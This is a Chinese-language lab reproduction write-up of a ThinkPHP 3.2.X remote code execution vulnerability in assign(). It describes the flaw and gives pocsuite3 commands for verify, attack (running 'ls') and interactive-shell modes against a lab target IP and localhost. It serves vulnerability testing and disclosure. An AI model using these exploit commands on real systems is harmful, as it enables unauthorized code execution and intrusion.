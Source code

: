 # ThinkPHP 3.2.X RCE远程代码执行漏洞

## 漏洞介绍

  ThinkPHP 框架 - 是由上海顶想公司开发维护的 MVC 结构的开源 PHP 框架，遵循 Apache2 开源协议发布，是为了敏捷 WEB 应⽤开发和简化企业应⽤开发⽽诞⽣的。

  2021 年 7 ⽉ 12 ⽇，⽹络上披露针对 ThinkPHP 3.2.X 的远程代码执⾏漏洞利⽤详情， 因业务代码中如果模板赋值⽅法 assign 的第⼀个参数可控，则可导致模板⽂件路径变量被 覆盖为携带攻击代码的⽂件路径，造成任意⽂件包含，执⾏任意代码。 

## 漏洞影响版本

- ThinkPHP 3.2.X

## 漏洞环境

- 操作系统：Linux
- IP地址：10.11.34.64
- ThinkPHP 3.2.3完整版

## 漏洞复现

开启靶机后访问 http:// 10.11.34.64/thinkphp/，此处使用pocsuite3脚本验证。

## 验证模式

```bash
pocsuite -r pocs/ThinkPHP_3_2_x_rce.py -u http:// 10.11.34.64/thinkphp/ --verify
```



## 攻击模式

Linux与Windows平台均兼容，注意不同平台执行命令即可。

```bash
pocsuite -r pocs/ThinkPHP_3_2_x_rce.py -u http:// 10.11.34.64/thinkphp/ --attack –cmd ls
```



## Shell模式

```bash
python3 cli.py -r pocs/ThinkPHP_3_2_x_rce.py  -u http://127.0.0.1:8082/thinkphp/ --shell 
```

**参考链接: https://www.seebug.org/vuldb/ssvid-99297**